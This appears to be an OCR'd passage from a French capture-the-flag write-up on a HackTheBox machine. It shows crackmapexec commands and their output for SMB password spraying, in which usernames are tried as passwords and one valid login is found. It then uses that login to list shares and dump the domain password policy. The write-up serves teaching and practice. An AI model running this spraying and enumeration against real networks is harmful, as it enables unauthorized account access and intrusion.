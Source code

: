 **Password Spray crackmapexec**
Avec `cme` on peux aussi faire du passwordspray

```
└─$ crackmapexec smb 10.10.11.236 -u user.txt -p user.txt --no-brute --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinWoo:jinWoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinHae:chinHae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [+] manager.htb\: 
```
- Si tu trouve des listes d'utilisateurs, faut toujours les mettre en minuscule.
Ici le user `operator` a le meme mot de passe que son utilisateurs.

## Utilisation de mes credenetials
Dans ce reseau, j'ai trouver plusieurs port important et il es temps d'utiliser mes credentials pour voir s'ils vont marcher a un port donnee.
- **SMB**
```
└─$ crackmapexec smb 10.10.11.236 -u operator -p 'operator' --shares
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [+] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.236    445    DC01             \          READ            Logon server share 
```
- **Check the `Password Policy`**
```
└─$ crackmapexec smb 10.10.11.236 -u operator -p 'operator' --pass-pol
SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [+] Dumping password info for domain: MANAGER
SMB         10.10.11.236    445    DC01             Minimum password length: 7
SMB         10.10.11.236    445    DC01             Password history length: 24
SMB         10.10.11.236    445    DC01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.10.11.236    445    DC01             
SMB         10.10.11.236    445    DC01             Password Complexity Flags: 000000
SMB         10.10.11.236    445    DC01                 Domain Refuse Password Change: 0
```